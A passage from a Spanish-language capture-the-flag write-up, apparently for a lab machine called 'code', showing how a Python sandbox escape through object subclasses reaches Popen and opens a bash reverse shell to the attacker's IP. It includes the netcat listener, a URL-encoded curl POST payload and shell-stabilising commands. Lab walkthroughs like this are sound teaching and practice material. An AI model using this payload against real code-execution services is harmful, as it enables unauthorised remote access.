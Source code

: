 
## Shell as `app-production`

El siguiente código `python` nos debería otorgar una consola como el usuario `app-production`, haciendo uso de `Popen()`

~~~ python
().__class__.__bases__[0].__subclasses__()[317](['bash', '-c', 'bash -i >& /dev/tcp/10.10.14.188/443  0>&1'])
~~~

> Antes de enviar el código anterior, recuerda iniciar un listener con `netcat` por el puerto que elegiste en el payload
{: .notice--danger}

~~~ bash
nc -lvnp 443
~~~

También podemos enviar una solicitud POST mediante `curl`

~~~ bash
curl -sX POST http://10.10.11.62:5000/run_code -d "code=().__class__.__bases__%5B0%5D.__subclasses__()%5B317%5D(%5B'bash'%2C+'-c'%2C+'bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.188%2F443++0%3E%261'%5D)"
~~~

En nuestra máquina recibiremos una consola como el usuario `app-production`

~~~ bash
nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.14.188] from (UNKNOWN) [10.10.11.62] 54930
bash: cannot set terminal process group (2598): Inappropriate ioctl for device
bash: no job control in this shell
app-production@code:~/app$  
~~~


## TTY Treatment

Haremos un tratamiento de la TTY para contar con una consola más interactiva, en la que podamos navegar y hacer `Ctrl+C` sin que la shell nos diga "hasta la próxima..."

~~~ bash
app-production@code:~/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
app-production@code:~/app$ ^Z
[1]  + 341683 suspended  nc -lvnp 443
root@parrot nmap # stty raw -echo; fg       
[1]  + 341683 continued  nc -lvnp 443
                                     reset xterm
~~~ 

Cambiaremos el valor de la variable de entorno `TERM` para poder limpiar la pantalla con `Ctrl+L`

~~~ bash
app-production@code:~/app$ export TERM=xterm
app-production@code:~/app$ stty rows 44 columns 184
~~~
